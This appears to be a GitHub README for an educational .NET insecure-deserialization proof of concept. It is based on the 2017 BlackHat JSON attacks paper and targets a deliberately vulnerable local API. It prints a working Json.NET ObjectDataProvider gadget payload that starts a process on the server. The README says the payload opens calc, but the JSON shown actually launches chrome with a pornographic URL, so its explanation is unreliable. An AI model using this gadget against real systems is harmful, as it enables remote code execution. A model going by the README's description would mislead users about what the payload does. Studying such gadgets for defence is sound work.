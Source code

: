 # insecure-deserialization-net-poc
Insecure deserialization is a severe issue, which allows an attacker to exploit a server just by sending a malicious JSON.
This is a new issue in the [OWASP Top 10 2017 release](https://github.com/OWASP/Top10) - A8.
This POC is built based on a [white paper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) from BlackHat USA 2017 talk.
You can find a recording of the talk [here](https://www.youtube.com/watch?v=NqHsaVhlxAQ) - this recording is from AppSec USA 2017.

## Running
* Use VS to open the solution and launch the server.
* Use curl/postman to send malicious request to the API.

## Example payload
This is an example payload, as generated by [ysoserial.net](https://github.com/pwntester/ysoserial.net).
To generate it, I used the following command: `ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc"`:
```
{
    "body": {
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "$values": [
                "chrome",
                "/c https://www.pornhub.com/view_video.php?viewkey=ph5a74ee77d1c7b"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
        }
    }
}
```
Post this payload to `http://localhost:8085/api/hello`. 
A new `calc` instance should be open.

